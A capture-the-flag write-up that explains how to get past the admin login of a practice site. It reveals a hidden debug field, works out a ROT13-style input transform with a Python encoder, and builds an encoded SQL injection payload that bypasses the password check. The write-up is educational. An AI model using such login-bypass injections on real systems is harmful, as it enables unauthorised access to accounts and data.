

The page we need to exploit is a static site featuring photos of Irish people.  


In the top-left corner, there is a menu with an option for **Admin Login**.



The login form appears to be vulnerable to **SQL injection**.

Upon inspecting the HTML source code of the site, we discover a hidden `debug` element with a boolean value:
```html
<input type="hidden" name="debug" value="0">
```

If we modify the boolean value to `1` and attempt to log in, the page redirects us to a debug page that reveals sensitive information, including the password used and the SQL query executed by the web application:

```
password: test
SQL query: SELECT * FROM admin WHERE password = 'grfg'
```

This confirms that the challenge involves a **SQL injection vulnerability**. However, we must note that the input is encrypted before being used in the query. After analyzing the encryption mechanism, we determine that it uses a simple **ROT13-like cipher**:
- It subtracts `13` from the ASCII value of each lowercase letter.
- If subtracting `13` would result in a value below `97` (the ASCII value for 'a'), it adds `13` instead.
- Non-alphabetic characters remain unchanged.

Here’s the Python script that implements this encryption:
```python
variable = "input"
new_variable = "" 

for i in variable:
    if (ord(i) < 97 or ord(i) > 122):
        new_variable += i
    elif (ord(i) - 13) < 97:
        new_variable += chr(ord(i) + 13)
    else:
        new_variable += chr(ord(i) - 13)
```

The SQL query we observed is:
```
SQL query: SELECT * FROM admin WHERE password = 'grfg'
```

Our goal is to manipulate this query into something like:
```
SQL query: SELECT * FROM admin WHERE password = 'a' OR '1'='1'
```
1. `'` closes the `password` parameter.
2. `OR 1=1` ensures the condition is always true, bypassing the password check.

To achieve this, we need to input:
```
a' OR '1'='1'
```

However, since spaces are problematic in some SQL injection contexts, we replace them with SQL comments (`/**/`):
```
a'/**/OR/**/'1'='1'
```

Next, we encode this input using the Python script to get this:
```
n'/**/be/**/'1'='1'
```

When we submit this payload, the application logs us in and grants access to the flag!
